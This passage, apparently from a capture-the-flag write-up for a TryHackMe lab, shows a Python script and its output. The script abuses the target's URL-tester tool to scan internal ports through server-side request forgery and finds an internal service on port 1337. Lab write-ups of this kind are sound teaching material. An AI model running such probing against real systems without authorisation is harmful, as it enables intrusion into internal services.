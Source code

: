 ![Attempt of circumventing the code injection filters](img/Creative-Filter-Circumvent.png)

As for now, let's proceed and try another approach.

### Enumerate Local Ports
After having tried to include local files via the URL tester, e.g. by path traversal, but always encountering the *Dead* message, I proceeded with trying to find local ports, that could have not been found by `nmap`. Since it is too tedious to check all 65,536 ports by hand, we can write a custom but very simple Python script that automates this task.

The script iterates through all possible port numbers and makes a request via `curl`, to the URL tester tool, requesting a resource from the localhost address `0.0.0.0`. If the result deviates from the expected message, the script assumes to have found an open port.

```python
import subprocess, sys

print('Start enumerating internal ports...')
for i in range(65536):
    res = subprocess.check_output(
        ['curl', '-d', 'url=http://0.0.0.0:' + str(i), sys.argv[1]],
        stderr = subprocess.DEVNULL
    )
    if res != b'<p> Dead </p>':
        print(f'[+] Port {i} can be reached')
print('Finished enumeration.')
```

The script can be invoked in the following fashion.

```
> python enumerate-internal-ports.py beta.creative.thm
Start enumerating internal ports...
[+] Port 0 can be reached
[+] Port 80 can be reached
[+] Port 1337 can be reached
```

Okay, port `1337` being open is news (actually port `0` is news too, but just references the service on port `80`). Let's go back to the webpage and request the tool to check the availability of `http://0.0.0.0:1337`.
